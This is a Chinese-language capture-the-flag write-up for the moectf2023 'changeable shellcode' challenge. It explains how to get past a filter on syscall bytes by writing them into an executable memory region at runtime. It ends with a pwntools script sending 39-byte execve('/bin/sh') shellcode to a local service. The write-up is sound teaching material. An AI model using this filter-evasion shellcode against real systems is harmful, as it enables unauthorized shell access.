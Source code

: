 ```yaml
---
title: moectf2023 - changeable shellcode
date: 2023/9/24 12:00:00
tags:
    - noob
excerpt: 通过分析64位程序的shellcode，利用特定内存区域绕过检测并成功打开shell。
---
```


## 文件分析

下载`shellcode`, 保护全开  
ghidra分析为64位程序

## 解题思路

有40个字节的空间，并且没有syscall，需要实现打开shell

而存放的地方，更是~~十分甚至是九分的~~奇怪，这个值在rax寄存器中有  
gdb `vmmap`查看发现该区域可读写执行

总体思路就是在这片区域分别连续写入0x5和0xf来绕开检测，
然后跳转到写了syscall`|05|0f|`的地址，
并且除了syscall以外的指令要写到最简以免长度超限

{% notel purple 踩过的坑 %}
1. 32位的int 0x80好像不能用，就算设置rax=0xb，也无法正常打开shell
2. 不要用ascii转换器，22字节的shellcode可以转出76字节来
{% endnotel %}

## EXPLOIT

```python
from pwn import *
sh = remote("localhost", 43877)

code = '''
mov rbx, 0x68732f6e69622f   ; '/bin/sh'
push rbx
mov rdi, rsp                ; rsp现在指向栈上sh字符串位置
xor esi, esi                ; 如果push rsp再用ni会直接运行到底，建议使用si
xor edx, edx
mov qword ptr[rax], 0xf     ; rax -> 0x114514000
nop                         ; preventing optimization
mov qword ptr[rax + 1], 0x5
push 0x3b
pop rax
jmp $ - 0x25                ; 64位的跳转偏移地址是这样的！跳转回0x114514000
'''
# 汇编后39字节，还可以压得更小的也可以开一个discussion

shc = asm(code, arch='amd64')
sh.sendline(shc)
sh.interactive()
```

Done.
